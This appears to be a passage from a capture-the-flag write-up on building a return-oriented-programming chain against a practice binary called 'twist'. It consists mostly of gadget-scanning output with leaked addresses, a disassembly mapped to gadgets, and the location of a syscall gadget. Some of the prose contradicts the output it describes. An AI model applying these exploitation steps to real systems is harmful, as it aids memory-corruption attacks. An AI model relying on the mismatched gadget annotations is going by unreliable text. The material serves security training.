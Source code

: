 ```
[*] Gadget [0x401374]: pop rdx; ret
[*] Gadget [0x401375]: pop rdx; ret
[*] Gadget [0x401377]: pop rdx; ret
[*] Gadget [0x401379]: [b'    (nil) ', b' 0x401490 ', b' 0x7f25f7d9b9a0 ', b'    (nil) ', b' 0x7f25f7d9e680 ', b' 0x7f25f7d9ba23\n']
[*] Gadget [0x40137a]: [b'    (nil) ', b' 0x401490 ', b' 0x7f1b7e64b9a0 ', b'    (nil) ', b' 0x7f1b7e64e680 ', b' 0x7f1b7e64ba23\n']
[*] Gadget [0x40137d]: pop rsi; ret
[*] Gadget [0x40137e]: pop rsi; ret
[*] Gadget [0x401380]: pop rsi; ret
[*] Gadget [0x401382]: [b'    (nil) ', b' 0x401490 ', b' 0x7fa92bdd49a0 ', b'    (nil) ', b' 0x7fa92bdd7680 ', b' 0x7fa92bdd4a23\n']
[*] Gadget [0x401383]: [b'    (nil) ', b' 0x401490 ', b' 0x7f9ed17639a0 ', b'    (nil) ', b' 0x7f9ed1766680 ', b' 0x7f9ed1763a23\n']
--------------------------------------------------------------------------------------------
```

It appears as if three addresses successfully populate each register. Remembering the earlier disassembly of our local binary, we see the following gadgets that can come out of each function. We see thre gadgets that will ``pop rdi; ret``;  followed by two ``pop rbp; ret`` gadgets. 

```
[local version of twist]
00401373  55                 push    rbp {var_8}
00401374  4889e5             mov     rbp, rsp [*]--------->[*] Gadget [0x401374]: mov rbp; rsp; pop rdi; ret;
---------------------------------------------------------->[*] Gadget [0x401375]: mov ebp, esp; pop rdi; ret;
00401377  5f                 pop     rdi {var_8}---------->[*] Gadget [0x401377]: pop rdi; ret;
00401378  c3                 retn------------------------->[*] Gadget [0x40137a]: ret; pop rbp; ret; 
0040137a  5d                 pop     rbp {__return_addr})->[*] Gadget [0x40137b]: pop rbp; ret;
0040137b  c3                 retn     					 
```

But what about this output? Why does ``pop rbx; ret`` have four successive ``pop rbp; ret`` gadgets instead of two successive like the others? It is probably because the ``pop rbp; ret`` gadgets are from the ``syscall_ret()`` function. We can test this on the local binary to confirm, and see syscall_ret gadget. 


```
[local version of twist]
[*] Gadget [0x401364]: pop rdx; ret
[*] Gadget [0x401366]: [b'    (nil) ', b' 0x401490 ', b' 0x7f7cf16f69a0 ', b'    (nil) ', b' 0x7f7cf16f9680 ', b' 0xd916b1\n']
[*] Gadget [0x401367]: [b'    (nil) ', b' 0x401490 ', b' 0x7f43d89d89a0 ', b'    (nil) ', b' 0x7f43d89db680 ', b' 0xbe66b1\n']
-------> address of syscall; ret gadget == 0x40136d
[*] Gadget [0x401370]: [b'    (nil) ', b' 0x401490 ', b' 0x7f74f2e459a0 ', b'    (nil) ', b' 0x7f74f2e48680 ', b' 0x12626b1\n']
[*] Gadget [0x401371]: [b'    (nil) ', b' 0x401490 ', b' 0x7f5ebd1c49a0 ', b'    (nil) ', b' 0x7f5ebd1c7680 ', b' 0xe296b1\n']
[*] Gadget [0x401374]: pop rdi; ret
```
